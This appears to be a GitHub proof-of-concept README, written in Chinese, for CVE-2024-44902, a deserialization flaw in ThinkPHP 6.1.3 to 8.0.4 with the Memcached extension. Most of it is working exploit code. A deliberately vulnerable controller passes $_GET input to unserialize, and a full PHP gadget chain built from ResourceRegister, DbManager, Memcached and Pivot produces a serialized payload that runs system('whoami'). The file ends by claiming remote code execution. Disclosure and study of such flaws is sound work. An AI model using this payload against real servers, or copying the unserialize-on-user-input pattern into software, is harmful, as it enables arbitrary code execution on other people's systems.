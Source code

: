 # CVE-2024-44902

## 漏洞描述
ThinkPHP v6.1.3 - v8.0.4存在一个反序列化漏洞，使得攻击者能够执行任意代码

## 影响版本

Thinkphp v6.1.3 to v8.0.4 

## 利用条件

Thinkphp安装了Memcached扩展

## 漏洞证明

- 测试环境: php8.0.7+thinkphp8.0.4+memcached3.2.0.

首先，在 app\controller\Index.php 中添加新的反序列化端点，例如:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['x']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

    public function hello($name = 'ThinkPHP8')
    {
        return 'hello,' . $name;
    }
}

```

您可以从以下位置生成有效负载:

```php
<?php
namespace think\cache\driver;
use think\model\Pivot;
class Memcached{
    protected $options=[];
    function __construct()
    {
        $this->options["username"]=new Pivot();
    }
}

namespace think\model;
use think\model;
class Pivot extends Model
{

}

namespace think;
abstract class Model{
    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    function __construct()
    {
        $this->data["fru1ts"]=["whoami"];
        $this->withAttr["fru1ts"]=["system"];
        $this->json=["fru1ts"];
    }
}

namespace think\route;
use think\DbManager;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new DbManager();
    }
}
namespace think;
use think\model\Pivot;
class DbManager
{
    protected $instance = [];
    protected $config = [];
    function __construct()
    {
        $this->config["connections"]=["getRule"=>["type"=>"\\think\\cache\\driver\\Memcached","username"=>new Pivot()]];
        $this->config["default"]="getRule";
    }
}

use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

使用 payload 反序列化可以导致 RCE:
![图片](https://github.com/user-attachments/assets/ee5ff49f-0710-4b47-b9de-c949acbd15f0)


